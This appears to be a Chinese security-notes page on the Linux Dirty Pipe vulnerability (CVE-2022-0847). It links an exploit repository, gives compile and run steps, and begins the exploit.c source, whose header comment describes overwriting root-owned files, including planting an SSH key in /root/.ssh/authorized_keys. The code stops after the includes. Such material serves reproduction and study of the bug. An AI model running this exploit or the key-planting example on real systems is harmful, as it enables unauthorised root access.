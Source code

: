 
# 0X04 代码审计




# 0X05 漏洞复现
![image-20220308153455983.png](_img/assets/1659491555878-91c8ca4f-8567-4a22-91d0-9ddb91342c4f.png)


# 0X05 EXP

## EXP-1
下载地址：[https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit](https://github.com/Arinerron/CVE-2022-0847-DirtyPipe-Exploit)

使用方法：
```python
./compile.sh
./exploit
```

compile.sh
```python
#!/bin/sh

gcc exploit.c -o exploit
```

exploit.c
```python
/* SPDX-License-Identifier: GPL-2.0 */
/*
 * Copyright 2022 CM4all GmbH / IONOS SE
 *
 * author: Max Kellermann <max.kellermann@ionos.com>
 *
 * Proof-of-concept exploit for the Dirty Pipe
 * vulnerability (CVE-2022-0847) caused by an uninitialized
 * "pipe_buffer.flags" variable.  It demonstrates how to overwrite any
 * file contents in the page cache, even if the file is not permitted
 * to be written, immutable or on a read-only mount.
 *
 * This exploit requires Linux 5.8 or later; the code path was made
 * reachable by commit f6dd975583bd ("pipe: merge
 * anon_pipe_buf*_ops").  The commit did not introduce the bug, it was
 * there before, it just provided an easy way to exploit it.
 *
 * There are two major limitations of this exploit: the offset cannot
 * be on a page boundary (it needs to write one byte before the offset
 * to add a reference to this page to the pipe), and the write cannot
 * cross a page boundary.
 *
 * Example: ./write_anything /root/.ssh/authorized_keys 1 $'\nssh-ed25519 AAA......\n'
 *
 * Further explanation: https://dirtypipe.cm4all.com/
 */

#define _GNU_SOURCE
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
```